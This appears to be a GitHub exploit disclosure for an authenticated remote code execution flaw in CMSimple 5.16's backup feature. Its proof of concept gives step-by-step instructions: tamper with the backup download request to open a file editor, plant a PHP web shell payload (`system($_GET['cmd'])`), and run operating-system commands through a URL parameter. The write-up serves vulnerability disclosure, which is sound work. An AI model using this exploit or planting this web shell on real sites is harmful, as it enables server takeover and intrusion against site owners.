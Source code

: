 
## Basic Info

- **Exploit Title:** CMSimple 5.16 backup file RCE (Authenticated)
- **Exploit Author:** h4ckr4v3n
- **Vendor Homepage:** https://www.cmsimple.org/
- **Version:** 5.16
- **Tested on:** Ubuntu 22.04/PHP 7.4/Nginx 1.18.0

## Description
Functionality of downloading php backup files in CMSimple 5.16 allows a user with administrator rights to inject and execute arbitrary php code

## Proof of Concept

1) Log In as Administrator.
2) Navigate to "Backup" tab.
3) Click on "download" button near content or pagedata file and intercept outgoing request.
4) Change GET request `/?file=content&action=download` to    `/?file=content&action=edit`
5) In code editor delete PHP-code to access file directly and put your payload: `<?php system($_GET['cmd']);?>`
6) Save file.
7) Now you can execute commands via cmd parameter: `/content/content.php?cmd=id`
![cmsimple_logedit1](https://github.com/user-attachments/assets/a4eec27d-ab1b-4682-8723-46c7d6143605)
![cmsimple_logedit2](https://github.com/user-attachments/assets/def015d9-dbfd-45ee-96a8-9b50c4b392fb)
![cmsimple_logedit3](https://github.com/user-attachments/assets/63f8f128-5617-4dfa-97ce-cf9986d91ea2)
![cmsimple_logedit4](https://github.com/user-attachments/assets/1e473950-f50b-4f7d-b623-f922d470e517)

